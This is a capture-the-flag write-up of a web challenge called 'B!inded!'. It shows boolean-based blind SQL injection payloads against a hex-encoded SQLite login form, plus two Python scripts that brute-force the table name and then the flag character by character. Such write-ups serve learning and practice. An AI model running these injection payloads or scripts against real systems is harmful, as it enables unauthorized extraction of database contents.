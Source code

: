 # B!inded! (Web Challenge)
### First, it is my first time writing writeups so it will be nice if you have negative feedback for me :)
## Description 

```
No fuzzing is needed, just get the flag, Format: EGCERT{flag}
Points : 200
```

## Enumeration 
 
once I opened the challenge I found this login page

![loginpage](../assets/ieee/B!inded!/login-page.jpeg)

And we have a hint in the description that tells us we don’t need to fuzz so our entry is the login page 
so i tried ```admin``` ```admin``` in the user and pass , but i got a response ```wrong password``` so now i know that we have admin username . 

i tried again with ```aboelnour``` and ```pass``` and i got a response ```user not found```

so i fired up my burp and send ```a``` in username and ```a``` in password

And I have noticed that username and password are converted to hex and separated by four zeros 
for example a = 61 in hex so our request will be like this 

![request](../assets/ieee/B!inded!/request.png)


From the challenge name, I got that it might be blind sqli 

so I typed ```aboelnour"``` in username and ```0``` in password , i have got an internal server error.
then I typed ```aboelnour" or 1=1 -- -``` and B00M I have got response ```Wrong Password```  , to make sure I tried ```aboelnour" or 1=0 -- -``` and got response ```User not found``` , so it is boolean based sqli 

so let's enum our sql type 

I tried ```admin" select version()-- -``` , but I got an internal server error 

so I tried ```admin"select sqlite_version()-- -``` , and the response was ```Wrong password``` , so our db is ```SQLite``` 

-----

## Extract table name  

+ First of all, we have SQL Server SUBSTRING() function , this function used to extract some characters from a string. 

### Ex :

+ substring("Aboelnour",1,1) , output will be --> A

+ substring("Aboelnour",2,1) , output will be --> b 

and so on

+ we have also SQL LIKE Operator : you can check it on "[https://www.w3schools.com/sql/sql_like.asp](https://www.w3schools.com/sql/sql_like.asp)"


So, if we have table_name = users and column_name = user, we'd enum users with a query like the below : 

```substring((select user from users where user like '%a%'),1,1) = 'a'```

operator ```like '%a%``` : will finds any values that have a on any position  

then I searched about how to extract tables from SQLitedb and found these payloads in payloadsALLTheThings on GitHub : [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md#sqlite-version)


And I have got this query to Extract table names :

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

I have modified it to this query below to find any table have fl string in any position at values :

```
SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_% AND like '%fl%'
```

so our final payload will be : 

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'f' -- -```

I tried it and I have got User not found so the first char not f 

So I have tried

```admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' and tbl_name like '%fl%'),1,1) = 'F' -- -``` , i have got Wrong password so the first character is F 

but it will be hard to make it manually so I have written a python script to enum table name  

----

## Exploit code 

First, we need to convert our username to hex and concatenate it with 000061 , 61 is the password
Second, we need to bruteforce all chars with check if "Wrong" in response text that is meaning we got the right character and increase step with 1 to find the second char and so on 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
returned_text="Wrong"
table=""
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT tbl_name FROM sqlite_master WHERE type=\'table\' and tbl_name NOT like \'sqlite_%\' and tbl_name like \'%fl%\'),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			table = table + i
			print("found more char : ", table)

print("Flag table name : " , table)
```

Afer running this script i have got table name 
```
Flag table name : Flag_jnk249
```

So now we have the table name 

before brute force column i have try this payload 

```
admin"select flag from Flag_jnk249-- -
```
and i got Wrong password so our column name is flag 

I modified my previse script to get the flag 


```python
import requests
import string

url = 'http://challenge.com/login'
myobj = '%s000061'
flag=""
returned_text="Wrong"
step = 1
for j in range(1,len(string.printable)):
	for i in string.printable:
		payload = f'admin"and SUBSTRING((SELECT flag from Flag_jnk249),{step},1) = \'{i}\' -- -'
		p = payload.encode('utf-8').hex()
		p = myobj % p 
		x = requests.post(url, data=p)
		if returned_text in x.text :
			step += 1
			print(x.text)
			print(i)
			flag = flag + i
			print("found more char : ", flag)

print("FLAG : " flag)
```

```
AND finnaly i have got FLAG The : EGCERT{flaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaag}
```

#### Linkedin : [https://www.linkedin.com/in/maboelnour12/](https://www.linkedin.com/in/maboelnour12/)
#### Facebook : [https://www.facebook.com/maboelnour12](https://www.facebook.com/maboelnour12)
